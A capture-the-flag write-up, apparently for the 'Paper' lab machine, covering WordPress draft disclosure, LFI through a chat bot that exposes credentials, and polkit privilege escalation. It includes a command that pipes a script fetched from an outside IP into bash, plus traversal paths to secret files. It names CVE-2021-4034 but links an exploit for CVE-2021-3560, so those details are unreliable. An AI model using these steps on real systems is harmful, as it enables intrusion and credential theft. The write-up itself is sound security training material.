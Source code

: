 ## Paper

Difficulty: Easy

### User Flag

```
rustscan -a paper.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/219438575-1b4bc0e3-b4c5-4acd-99f8-36f22c367850.png)

<br>

There is nothing interesting in the web page. Looking through the requests, we find a domain to access: office.paper

![x-backend-server](https://user-images.githubusercontent.com/58514930/219438608-597810db-2d99-4635-ab41-3c4f8cd45d08.png)

![office paper](https://user-images.githubusercontent.com/58514930/219439038-08514625-444a-4348-95dc-4a49fd8584aa.png)

<br>

The website seems to be constructed in WordPress, so we run WPScan to look for vulnerabilities.

```
wpscan --url http://office.paper -e vp --api-token <TOKEN>
```

The result show to us that there is a vulnerability that permit any user to see private and draft posts.

![wpscan result](https://user-images.githubusercontent.com/58514930/219439291-4f713798-22df-44d5-8d7e-644c7a85f84d.png)

<br>

There is one post in the site that give us a hint that we may find something in the drafts.

![draft-hint](https://user-images.githubusercontent.com/58514930/219439471-28afbe37-0cee-4dd9-a3d3-001fe8b12d30.png)

<br>

To exploit the vulnerability, we access http://office.paper/?static=1.  

Here we discover a secret URL to register to a chat system.  

> Remember to add office.paper and chat.office.paper to /etc/hosts.

![registerURL](https://user-images.githubusercontent.com/58514930/219440263-0ab0d039-72e1-4db1-85a6-f1755626af6b.png)

![registering](https://user-images.githubusercontent.com/58514930/219440853-108f460a-32d5-4204-a8fe-07e2f368c1fb.png)

<br>

Inside this chat system, there is a bot called recyclops that retrieve us some files. This bot is vulnerable to LFI.  

Searching inside the files we find credentials in ../hubot/.env.  

You could also enumerate the ../../../../../proc/self/environ file to get this information.  

![recyclopsLFI](https://user-images.githubusercontent.com/58514930/219441141-800b7c84-d461-4741-9566-e0b042f58f78.png)

<br>

This credentials doesn't work in SSH, so we go to the chat and enumerate some users.

![userEnumeration](https://user-images.githubusercontent.com/58514930/219441686-9ac558be-0d4e-4fe9-9950-7c6dff4e98f6.png)

<br>

The password "Queenofblad3s!23" works in SSH with the user dwight.

### Root Flag

Doing some enumeration with linPeas, we see that the machines is vulnerable to CVE-2021-4034.

> To directly execute linPeas you can use: curl http://10.10.14.5:8000/linpeas.sh | bash

![linPeas](https://user-images.githubusercontent.com/58514930/219442256-bccb3121-b7aa-47de-9176-1b5d32b6e78e.png)

<br>

Just execute [this exploit](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) and get the root.

![exploitRoot](https://user-images.githubusercontent.com/58514930/219442238-c0cbe72e-b005-48f2-8ac9-a2bfa3b6e7ff.png)
